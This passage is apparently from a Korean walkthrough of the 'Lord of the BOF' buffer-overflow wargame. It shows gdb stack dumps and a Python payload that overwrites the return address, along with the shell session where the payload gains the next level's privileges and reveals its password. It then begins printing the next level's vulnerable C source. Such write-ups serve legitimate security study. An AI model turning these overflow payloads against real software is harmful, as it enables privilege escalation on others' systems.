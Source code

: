 ``` gdb
(gdb) x/8wx $ebp-40
0xbffffa80:	0x40058ae0	0x41414141	0x400fbff9	0x41414141
0xbffffa90:	0x41414141	0x41414141	0x41414141	0x41414141
```

buffer 주소는 0xbffffa80이다. 따라서 최종적으로 만들어진 payload는 다음과 같다.

`python -c 'print "\xe0\x8a\x05\x40" + "AAAA" + "\xf9\xbf\x0f\x40" + "A"*32 + "\x10\x84\x04\x08" + "AAAA" + "\xb0\xfa\xff\xbf" + "\x80\xfa\xff\xbf"'`

이를 통해 core를 얻고 gdb를 이용해 buffer의 주소를 수정하여 넣어주면 쉘을 얻을 수 있다.

``` gdb
(gdb) x/8wx 0xbffffa60
0xbffffa60:	0xbffffaa0	0x00000041	0x00000004	0x08048410
0xbffffa70:	0x40058ae0	0x41414141	0x400fbff9	0x41414141
```

buffer의 주소는 0xbffffa70이다.

`python -c 'print "\xe0\x8a\x05\x40" + "AAAA" + "\xf9\xbf\x0f\x40" + "A"*32 + "\x10\x84\x04\x08" + "AAAA" + "\xa0\xfa\xff\xbf" + "\x70\xfa\xff\xbf"'`

``` bash2
[succubus@localhost succubus]$ ~/nightmar2 `python -c 'print "\xe0\x8a\x05\x40" + "AAAA" + "\xf9\xbf\x0f\x40" + "A"*32 + "\x10\x84\x04\x08" + "AAAA" + "\xa0\xfa\xff\xbf" + "\x70\xfa\xff\xbf"'`
?@AAAA廈@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?AAAA??퓈?
bash$ exit   
exit
Segmentation fault (core dumped)
[succubus@localhost succubus]$ ~/nightmare `python -c 'print "\xe0\x8a\x05\x40" + "AAAA" + "\xf9\xbf\x0f\x40" + "A"*32 + "\x10\x84\x04\x08" + "AAAA" + "\xa0\xfa\xff\xbf" + "\x70\xfa\xff\xbf"'`
?@AAAA廈@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?AAAA??퓈?
bash$ id    
uid=517(succubus) gid=517(succubus) euid=518(nightmare) egid=518(nightmare) groups=517(succubus)
bash$ my-pass
euid = 518
beg for me
```

# nightmare

password is beg for me

### Problem

``` bash2
[nightmare@localhost nightmare]$ cat xavius.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - xavius
        - arg
*/

#include <stdio.h>
#include <stdlib.h>
#include <dumpcode.h>

main()
{
	char buffer[40];
	char *ret_addr;

	// overflow!
	fgets(buffer, 256, stdin);
	printf("%s\n", buffer);

```